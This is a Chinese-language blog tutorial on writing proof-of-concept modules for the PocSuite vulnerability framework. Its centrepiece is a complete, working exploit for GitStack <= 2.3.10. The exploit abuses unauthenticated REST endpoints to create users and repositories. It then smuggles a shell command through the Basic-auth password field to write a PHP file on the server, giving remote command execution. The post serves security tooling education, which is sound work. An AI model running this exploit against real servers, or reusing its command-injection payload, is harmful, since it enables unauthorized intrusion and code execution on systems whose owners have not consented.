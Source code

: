 ```yaml
---
layout: post
title:  "PocSuite 编写及使用笔记"
date:   2019-7-29 15:18:43
categories: Development
author: co0ontty
categories: 安全开发 ALL
tags: 安全开发 ALL
describe: PocSuite 编写及使用笔记
cover: '/assets/img/posts/pocsuitecover.png'
---
```

## 关于 PocSuite
[PocSuite](http://pocsuite.org)是由知道创宇 404 实验室编写的一款基于 python 的开源漏洞利用框架。PocSuite 包含漏洞检测和利用两种模式，可以针对特定漏洞对多个目标进行探测并返回漏洞检测及利用的结果。
![使用过程图](/assets/img/posts/pocsuite1.png)
## PocSuite2
关于 PocSuite2 的编写方法及使用过程中的注意事项
### PocSuite2 编写格式
PocSuite 检测模块的构成主要由以下几部分构成：
·python 库的引用模块
·关于 poc 的介绍信息模块
·漏洞检测代码模块
·漏洞利用代码模块
·返回结果模块
### python 库引用模块
```python
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth
```
在该模块声明漏洞检测及利用过程中需要使用到的 python 库，其中`from pocsuite.api.poc import Output, POCBase 和 from pocsuite.api.poc import register`是必须要引用的库

### 关于 poc 的介绍信息模块
```python
    vulID = 'N/A' #根据seebug提供的漏洞编号进行编写，没有的话可以写N/A
    version = '1.0' #该poc的版本
    author = 'co0ontty' #编写作者
    vulDate = '2019-7-11' #漏洞时间
    createDate = '2019-7-16' #创建poc的时间
    updateDate = '2019-7-16' #更新时间
    references = ['https://xz.aliyun.com/t/2235'] #关于该漏洞的参考信息网站
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析' #漏洞名称
    appPowerLink = 'https://gitstack.com' #存在漏洞的服务的官网
    appName = 'GitStack' #存在漏洞的服务的名称
    appVersion = 'GitStack <= 2.3.10' #存在漏洞的服务的版本
    vulType = '文件上传' #该漏洞的类型（参考seebug官网的漏洞类型分类）
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    ''' # 漏洞的介绍信息
    samples = []
    install_requires = []
```
### 漏洞检测代码模块
```python
def _verify(self):
        result = {}
        target = self.url
        #your verify code
        if 判断条件:
            result['VerifyInfo'] = {} # 标识为成功
            result['VerifyInfo']['URL'] = self.url #返回到结果中的url
            pass
        return self.parse_output(result) # 返回结果
```
系统会根据用户编写的检测代码对漏洞进行检测，设置判断条件后，如果判断条件为真，则使用`result['VerifyInfo'] = {}`返回判断结果为真，并且使用`result['VerifyInfo']['URL'] = self.url`返回向返回结果中输出特定的值。最后程序在运行`return self.parse_output(result)`结果输出代码的时候，如果存在`result['VerifyInfo'] = {}`则返回 success，如果不存在则判断为 faild
### 漏洞利用代码模块

```python
def _attack(self):
    # attack code 
```
一般情况下会设置检测代码与漏洞利用代码相同：
```python
_attack = _verify
```
### 返回结果模块

```python
def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output
```
将漏洞检测模块或者漏洞利用模块的结果输出到屏幕中显示

### 完整代码分享
GitStack 任意文件上传漏洞
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# from pocsuite.api.request import req
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _verify(self):
        result = {}
        target = self.url
        repository = 'rce'
        username = 'rce'
        password = 'rce'
        csrf_token = 'token'
        user_list = []
        r = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r = requests.get("{}/rest/repository/".format(target))
        repository_list = r.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        r = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php echo"'+random_identify_code+'"; ?>" > c:'+random_file_name))
        test_url = target+"/web/"+random_file_name
        r = requests.get(test_url)
        if (r.status_code == 200)&(random_identify_code in r.text):
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            pass
        return self.parse_output(result)

    _attack = _verify

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```
## 库的使用
### requests 库
pocsuite 中自带经过改装的 req，`from pocsuite.api.request import req`，pocsuite 中的 req 可以使用随机的 UA
### urlparse
使用如下命令时，py 中调用目标的方式时通过 self.url 和 self.target 
```python
pocsuite -r portals_urllib.py -u 172.16.5.155:8080
```
self.url 与 self.target 的区别为：如果 -u 传递的参数没有指定 http 或者 https 的话，self.url 会自动添加 http:// 而 self.target 则不会做任何操作。
![使用过程图](/assets/img/posts/pocsuite-4.png)
不管怎样，self.url 和 self.target 均无法对端口进行识别和操作，所以我们要引入 urlparse 库：
### urlparse 库
**urlparse.urlparse(分离）**
![urlparse.urlparse](/assets/img/posts/pocsuite-6.png)
**urlparse.urljoin（合并）**
![urlparse.urljoin](/assets/img/posts/pocsuite-5.png)